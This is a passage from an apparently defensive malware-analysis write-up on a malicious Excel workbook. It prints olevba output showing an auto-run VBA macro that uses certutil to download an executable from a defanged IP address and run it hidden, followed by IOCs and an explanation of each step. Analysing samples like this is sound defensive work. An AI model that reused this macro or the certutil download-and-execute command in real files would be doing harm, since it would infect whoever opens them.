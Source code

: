The easiest way to grab low-hanging macro functionality for me is through `olevba`. In this case, the macro functionality is straightforward:

```console
remnux@remnux:~/cases/tesla-xlsm$ olevba mv_tvm.xlsm 
olevba 0.60 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: mv_tvm.xlsm
Type: OpenXML
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Sub Workbook_Open()
PID = Shell("cmd /c certutil.exe -urlcache -split -f ""hxxp://18.179.111[.]240/xr0/loader/uploads/scan08710203065.exe"" Lqdzvm.exe.exe && Lqdzvm.exe.exe", vbHide)
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Workbook_Open       |Runs when the Excel Workbook is opened       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|vbHide              |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |hxxp://18.179.111[.]24|URL                                          |
|          |0/xr0/loader/uploads|                                             |
|          |/scan08710203065.exe|                                             |
|IOC       |18.179.111[.]240      |IPv4 address                                 |
|IOC       |certutil.exe        |Executable file name                         |
|IOC       |scan08710203065.exe |Executable file name                         |
|IOC       |Lqdzvm.exe          |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

The macro contains a subroutine named [`Workbook_Open`](https://docs.microsoft.com/en-us/office/vba/api/excel.workbook.open), which launches when Excel opens this document. The subroutine executes a [`Shell`](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/shell-function) command, which spawns `cmd.exe` and a `certutil.exe` process. The [certutil process](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) uses a `-urlcache` and `-split` command line option, downloads from the specified URL, and stores the contents within `Lqdzvm.exe.exe` Afterward, `cmd.exe` executes the downloaded EXE.

Since the VBA macro here is pretty brief, there's not much else to investigate in the document. Let's move on to the second stage, the downloaded EXE.

## Analyzing Lqdzvm.exe.exe
